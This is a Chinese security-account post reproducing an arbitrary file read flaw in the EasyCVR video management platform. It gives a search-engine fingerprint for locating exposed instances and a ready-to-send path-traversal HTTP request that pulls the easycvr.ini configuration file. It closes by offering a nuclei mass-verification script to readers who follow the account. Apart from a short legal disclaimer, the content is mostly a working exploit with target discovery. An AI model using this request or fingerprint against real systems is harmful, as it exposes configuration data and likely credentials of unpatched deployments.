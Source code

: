 #  【漏洞复现】EasyCVR视频管理平台存在任意文件读取漏洞   
 新势界NewFrontier   2025-01-07 02:03  
  
![](https://mmbiz.qpic.cn/mmbiz_png/nKibbsr7q5Uoic4HqaOR77KgQOr062ubgGR7k9HhTqwJWan2KibZRiczhxkEzyKMBGO4LQDicBMFMPcJgp3RI6ia8IzA/640?&random=0.2500397116661788&random=0.331463449447553&random=0.8263159340656969 "")  
  
声明  
  
 该公众号大部分文章来自作者日常学习笔记，也有部分文章是经过作者授权和其他公众号白名单转载，未经授权，严禁转载，如需转载，联系开白。请勿利用文章内的相关技术从事非法测试，如因此产生的一切不良后果与文章作者和本公众号无关。公众号现在只对常读和星标的公众号才展示大图推送，建议把公众号设为星标，否则可能就看不到啦！感谢各位师傅。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/nKibbsr7q5Uoic4HqaOR77KgQOr062ubgGR7k9HhTqwJWan2KibZRiczhxkEzyKMBGO4LQDicBMFMPcJgp3RI6ia8IzA/640?&random=0.11349382888065818 "")  
  
资产收集  
```
web.similar_icon=="11435736462193662542"
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HboZfk6j9156dZMqCHDibALfXwgfQG8UZHvIeXqNUKGUEWSRlp3duAjozXgSnhMg8ub5Wh9iboAbtZK7iaunywYBQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/nKibbsr7q5Uoic4HqaOR77KgQOr062ubgGR7k9HhTqwJWan2KibZRiczhxkEzyKMBGO4LQDicBMFMPcJgp3RI6ia8IzA/640? "")  
  
漏洞复现  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HboZfk6j9156dZMqCHDibALfXwgfQG8UZW9hkibeOlFIW1ibYr88Z2iaEooA4KFemV11C7BLG6Fjl4aM4WeNtkFXMg/640?wx_fmt=png&from=appmsg "")  
  
发送请求  
```
GET /taillog/oxsecl/..\easycvr.ini HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HboZfk6j9156dZMqCHDibALfXwgfQG8UZkvicJQmeZB06CPAvwTNaokLpiaSQ1jNU00GtibGXD6icF2iaL4IjRfO2xpQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/nKibbsr7q5Uoic4HqaOR77KgQOr062ubgGR7k9HhTqwJWan2KibZRiczhxkEzyKMBGO4LQDicBMFMPcJgp3RI6ia8IzA/640?&random=0.11349382888065818 "")  
  
批量验证脚本  
  
关注公众号  
并回复   
“ZH-2025-01-07-001  
”  
 即可获得该漏洞nuclei脚本  
  
  
  
